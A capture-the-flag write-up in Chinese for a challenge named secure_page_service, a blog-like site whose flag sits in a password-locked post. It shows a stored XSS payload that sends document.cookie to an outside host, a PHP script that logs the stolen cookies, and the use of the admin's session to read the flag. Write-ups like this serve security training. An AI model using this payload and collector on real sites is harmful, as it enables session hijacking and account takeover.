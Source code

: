 # secure_page_service
這是一個類似部落格的網站，你可以創造文章，然後用密碼鎖起來，flag藏在某個被密碼鎖住的文章裡。
 * 看一下網頁source code，實際創帳號嘗試後，收集到的線索：
  1. 只有admin可以不需要密碼就能看文章，如果能得到他的session_id就能搶到flag
  2. 網站有persistent XSS漏洞：沒有過濾輸入是否是HTML程式碼就存到資料庫裡，然後直接顯示出來
  3. 回報問題，不久admin會來察看你的文章！！
那要怎麼偷呢？
 * 注意到2.讓我們可以把javascript程式碼存到資料庫裡，並且讓這段程式在看文章時執行，所以用javascript取得瀏覽者的cookie，並且將cookie傳送到另一個準備好的網站去。像這樣：
```javascript
</div>
<script>location.href=("http://ulkk1c611e83.lubebul.koding.io/php.php?cookie="+document.cookie)
</script>
```
 * 準備的那個網站，我架在免費雲端平台Koding上，只要把cookie給存下來就偷到囉：
```php
<?php
$cookie = $_GET['cookie'];
$userip = getenv('REMOTE_ADDR');
$file = '/home/lubebul/Documents/cookies.txt';
$fout = fopen($file, 'a') or die("cannot create file");
fwrite($fout, 'from ip = '.$userip.', get cookie: '.$cookie);
fclose($fout);
echo "I've stolen your cookie! Hehe~";
?>
```
 * 記得要給文章設密碼，然後回報問題等admin上當
 * 最後在用瀏覽器外掛，編輯cookie的值，成功取得
 Flag: wow_cross_site_scripting_is_such_web
